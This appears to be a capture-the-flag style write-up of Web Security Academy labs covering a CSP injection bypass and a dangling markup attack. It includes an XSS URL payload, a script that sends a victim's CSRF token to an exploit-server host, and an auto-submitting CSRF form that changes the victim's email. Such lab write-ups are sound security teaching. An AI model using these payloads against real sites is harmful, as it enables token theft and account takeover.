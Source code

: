 # CSP
1. This lab cannot be done without using Burp Professional
2. This lab reflects the GET parameter `token` into the CSP, allowing for the injection of new policies. While the `script-src` directive is set and cannot be overriden, the `script-src-elem` element was not set. As such, visiting the following endpoint sets the CSP directive `script-src-elem 'unsafe-inline'` and executes an alert: `/?search=<script>alert()</script>&token=;script-src-elem 'unsafe-inline'`

# Dangling Markup
1. This lab has an XSS vulnerability but is protected by CSP. However, by setting a value for the email we can insert HTML tags and cause a dangling markup attack. This attack can be automated with the following script on the exploit server:
```
<script>
if(window.name) {
	new Image().src='https://exploit-ac891fb81f94e06cc19705970167009c.web-security-academy.net/extract?e='+encodeURIComponent(window.name);
} else {
	location = "https://ac5f1f461f81e071c19805190034002a.web-security-academy.net/my-account?email=\"><a href='https://exploit-ac891fb81f94e06cc19705970167009c.web-security-academy.net/exploit'>Click me</a><base target='";
}
</script>
```
This exploit will take the user to their account page with a `Click me` link in the email form. When that link is clicked, the victim's browser will send a request to the attacker's server which includes their CSRF token. From there, the above script can be replaced with the following simple CSRF payload to use the victim's CSRF token and change their email address:
```
<form action="https://ac5f1f461f81e071c19805190034002a.web-security-academy.net/my-account/change-email" method="POST">
                            <input required="" type="email" name="email" value="fake@attacker.com">
                            <input required="" type="hidden" name="csrf" value="GjdQmAA7vWTFbZ2mGOvDtX3rDZ9LUkpE">
                        </form>
<script>
document.forms[0].submit();
</script>
```
